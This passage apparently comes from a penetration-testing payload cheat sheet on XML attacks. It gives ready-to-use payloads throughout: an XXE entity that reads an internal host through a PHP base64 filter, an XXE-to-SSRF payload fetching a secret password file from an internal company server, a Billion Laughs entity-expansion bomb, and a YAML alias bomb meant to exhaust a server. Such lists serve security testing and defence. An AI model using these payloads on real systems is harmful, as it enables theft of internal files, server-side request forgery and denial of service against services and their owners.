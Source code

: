 ```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

## XXE to SSRF

XXE can be combined with the [SSRF vulnerability](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery) to target another service on the network.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://secret.dev.company.com/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```


## Deny of service

:warning: : These attacks might kill the service or the server, do not use them on the production.

Billion Laugh Attack

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

Yaml attack

```xml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```
